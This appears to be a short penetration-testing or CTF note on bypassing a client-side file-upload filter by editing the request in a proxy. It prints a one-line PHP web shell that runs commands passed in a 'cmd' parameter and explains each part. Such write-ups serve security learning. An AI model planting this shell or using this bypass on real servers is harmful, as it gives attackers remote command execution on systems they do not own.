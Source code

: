 <figure><img src="../../../.gitbook/assets/image (222).png" alt=""><figcaption></figcaption></figure>

Given that the extension check was client-side, an opportunity for bypassing the filter presented itself. By inspecting and modifying the requests in the network inspector, it was possible to manipulate the file type filter.

In this example we have a filter where we can only upload PNG's, we modify it in the repeater and reload it, and it bypassed the filter on client side :tada:

<figure><img src="../../../.gitbook/assets/image (223).png" alt=""><figcaption></figcaption></figure>

```
<?php system($_GET['cmd']);?>
```

1. `<?php`: This is the opening tag for a PHP code block.
2. `system($_GET['cmd']);`: This line uses the `system` function, a PHP function that executes commands via the shell. It takes the command as a string argument. In this case, it retrieves the command from the 'cmd' parameter in the GET request using `$_GET['cmd']`. This means that whatever value is passed in the 'cmd' parameter will be executed as a shell command.
